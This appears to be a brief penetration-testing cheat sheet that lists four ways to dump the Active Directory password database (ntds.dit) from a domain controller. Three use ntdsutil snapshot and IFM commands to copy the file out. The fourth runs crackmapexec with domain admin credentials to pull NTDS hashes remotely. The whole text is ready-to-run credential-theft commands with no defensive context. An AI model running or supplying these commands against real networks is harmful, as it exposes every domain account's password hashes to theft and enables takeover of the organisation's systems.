 <b>Method1:</b>
<pre>
ntdsutil snapshot "activate instance ntds" create quit quit
ntdsutil snapshot "mount {GUID}" quit quit
copy "MOUNT_POINT\windows\ntds\ntds.dit" "c:\temp\ntds.dit"
ntdsutil snapshot "unmount {GUID}" "delete {GUID}" quit quit
</pre>

<b>Method2:</b>
<pre>
C:\>ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
</pre>

<b>Method3:</b>
<pre>
ntdsutil "ac in ntds" "ifm" "cr fu c:\temp" q q
</pre>

<b>Method4:</b>
```
crackmapexec.py -u DA_USERNAME -p DA_PASSWORD -d FQDN_DOMAIN DOMAIN_IP --ntds drsuapi
```
